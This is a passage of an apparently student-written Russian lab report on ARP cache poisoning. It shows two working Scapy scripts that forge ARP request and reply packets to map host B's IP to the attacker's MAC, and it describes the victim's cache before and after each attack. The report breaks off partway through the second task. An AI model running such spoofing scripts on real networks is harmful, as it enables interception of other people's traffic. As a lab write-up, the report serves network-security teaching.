





# Лабораторная работа №1: Атаки на ARP и TCP

# Задача 1.1. С использованием ARP-запроса

### Описание
На хосте M создайте пакет запроса ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, произошла атака или нет.

### Код скрипта:
```python
#!/usr/bin/python3 
from scapy.all import * 

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst='ff:ff:ff:ff:ff:ff') 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=1) 

pkt = eth / arp 
sendp(pkt)
```

## Результат

### 1. В результате атаки был выполнен скрипт scapy, направленный на хост А.
На скрине видно терминал злоумышленника, выполняющего скрипт. Мы видим, что мак адрес машины злоумышленника - **02:42:0a:03:00:25**, а его ip-адрес - **10.3.0.37**


**(Рис. 1.1 - Скрин машины злоумышленника)**

### 2. На данном скрине видно терминал жертвы. 
Первая команда arp -n выполнялась ДО того, как был выполнен скрипт с хоста злоумышленника. Мы видим, что arp кэш не содержит никакой информации.
Вторая команда arp -n выполнена ПОСЛЕ того, как был выполнен скрипт. Видим, что в arp кэше появилась запись, которая соотносит ip адрес **10.3.0.3** (который является адресом хоста B) с mac-адресом хоста злоумышленника **02:42:0a:03:00:25**.

**(Рис. 1.2 - Скрин машины жертвы А)**

Таким образом, можно сделать вывод о том, что атака произведена успешно и в arp-кэше хоста А теперь хранится запись о том, что mac-адрес хоста B соответствует ip-адресу хоста M и в последующем, ответы с хоста А будут отправляться на ip-адрес хоста M.

# Задача 1.2. С использованием ответа ARP
На хосте M создайте ответный пакет ARP, чтобы сопоставить IP-адрес B с MAC-адресом M. Отправьте пакет A и проверьте, успешна атака или нет.

Попробуйте провести атаку по следующим двум сценариям и сообщите о результатах:

IP-адрес B уже находится в кеше A.
IP-адрес B отсутствует в кеше A. Вы можете использовать команду arp -d a.b.c.d, чтобы удалить запись кэша ARP для IP-адреса a.b.c.d.

**Код скрипта**:
```python
#!/usr/bin/python3 
from scapy.all import *
from scapy.layers.l2 import ARP, Ether 

A_ip = "10.3.0.2"
A_mac = "02:42:0a:03:00:02"
B_ip = "10.3.0.3"
B_mac = "02:42:0a:03:00:03"
M_ip = "10.3.0.37"
M_mac = "02:42:0a:03:00:25"

eth = Ether(src=M_mac,dst=A_mac) 
arp = ARP(hwsrc=M_mac, psrc=B_ip,
          hwdst=A_mac, pdst=A_ip,
          op=2) 

pkt = eth / arp 
sendp(pkt)
```

### Сценарий 1: IP-адрес B уже находится в кеше A.
---

#### Исходное состояние машины А:


Видим, что ip-адрес машины А - **10.3.0.2**, в кэше лежит запись о соответствии ip и mac-адресов хоста B (реальные).

------
#### Исходное состояние машины B:



Видим, что ip-адрес машины B - **10.3.0.3**.
MAC-адрес - **02:42:0a:03:00:03**

### Сценарий 2: IP-адрес B уже находится в кеше A.
---

#### Исходное состояние машины А:


Видим, что ip-адрес машины А - **10.3.0.2**, а arp кэш пустой


------
#### Исходное состояние машины B:


Видим, что ip-адрес машины B - **10.3.0.3**, arp кэш так же пустой